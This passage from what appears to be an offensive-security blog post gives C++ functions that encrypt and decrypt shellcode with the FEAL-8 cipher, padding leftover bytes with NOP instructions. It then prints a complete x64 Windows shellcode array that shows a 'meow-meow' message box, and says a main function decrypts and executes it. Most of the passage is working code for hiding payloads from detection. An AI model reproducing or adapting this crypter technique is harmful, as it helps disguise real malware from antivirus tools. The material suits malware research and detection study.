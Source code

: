 ```cpp
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

First function is responsible for encrypting the provided shellcode (`meow-meow` messagebox in our case) using `FEAL-8` encryption. It processes the shellcode in `64-bit` blocks (`8-bytes`), and if there are any remaining bytes that do not fit into a full block, it pads them with `0x90` (`NOP`) before encrypting.     

Finally, `main` function demonstrates encrypting, decrypting, and executing shellcode using `FEAL-8`.    

As usually I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```
